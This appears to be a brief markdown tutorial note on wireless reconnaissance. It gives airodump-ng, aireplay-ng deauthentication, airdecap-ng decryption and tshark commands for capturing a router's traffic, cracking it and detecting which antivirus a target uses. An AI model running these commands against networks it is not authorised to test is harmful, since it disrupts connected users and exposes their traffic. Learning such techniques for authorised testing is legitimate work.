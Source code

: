 # Gather Security Endpoints

After discovering the router's radio frequency presence then start capturing the packets.

```
# airodump-ng -c <channel> --bssid "00:20:91:B4:F8:33" --essid "NullByte_Network" -w wifi-capture.cap wlan0mon
```

Depending on the router's wireless encryption algorithm you will need to deauthenticate any client that is connected to the router then perform password cracking to decrypt the packet capture.

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Once you've decrypted the packet capture open packet analysis software such as, Wireshark to inspect the network traffic.

```
# airdecap-ng -b "<bssid>" -e "<network_name>" -p "<password>" wifi-capture.cap

# tshark -r wifi-capture-dec.cap -n -T fields -e dns.qry.name | grep -i "avast\|avcdn" | sort -u
```

---
## References

### Null Byte

- [Null Byte: How to Identify Antivirus Software Installed on a Target's Windows 10 PC](https://null-byte.wonderhowto.com/how-to/identify-antivirus-software-installed-targets-windows-10-pc-0198775/)